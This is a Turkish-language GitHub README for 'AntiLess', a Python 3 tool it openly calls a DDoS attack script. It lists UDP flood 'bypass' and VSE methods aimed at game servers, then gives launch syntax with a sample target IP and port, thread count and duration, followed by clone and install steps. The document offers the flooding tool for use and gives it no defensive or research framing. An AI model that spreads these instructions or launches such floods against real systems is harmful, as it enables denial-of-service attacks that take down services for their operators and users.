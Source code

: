 
<em><h5 align="center">AntiLess - DDoS Saldırı Scripti > 9 Method</h5></em>
<em><h5 align="center">(Programlanma dili - Python 3)</h5></em>


## Özellikler ve methodlar

* Layer4: 
  * UDP | UDP Flood Bypass
  * VSE | Protokol gönderimi (DDraceNetwork ✅)

* ⚙️ Tools - Nasıl kullanılır
`
python3 anti.py tools
`
  * ☢️  PING | Serverların pinlglerini ölçer.
  * ✔️ CHECK | Sitelerin durumunu checkler.

**Nasıl kullanılır?**

```shell
python3 .\anti.py <method> <ip:port> <threads> <duration> <config.json (Yalnızca Güçlendirme)>
ÖRNEK ÇIKTI: python3 .\anti.py VSE 62.106.84.67:8332 2 1000 config.json 100 600> not: ip - port - method ve diğer değişkenleri kendinize göre değiştirin.
```

**Gerekliler**

* [dnspython](https://github.com/rthalley/dnspython)
* [cfscrape](https://github.com/Anorov/cloudflare-scrape)
* [impacket](https://github.com/SecureAuthCorp/impacket)
* [requests](https://github.com/psf/requests)
* [Python3][python3]
* [Antiless](https://github.com/antilagg/Antiless)
* [icmplib](https://github.com/ValentinBELYN/icmplib)
* [certifi](https://github.com/certifi/python-certifi)
* [psutil](https://github.com/giampaolo/psutil)
* [yarl](https://github.com/aio-libs/yarl)
---

```shell
git clone https://github.com/antilagg/Antiless-DDoS.git
cd Antiless-DDoS
pip install -r moduller.txt
```

[python3]: https://python.org 'Python3'

---
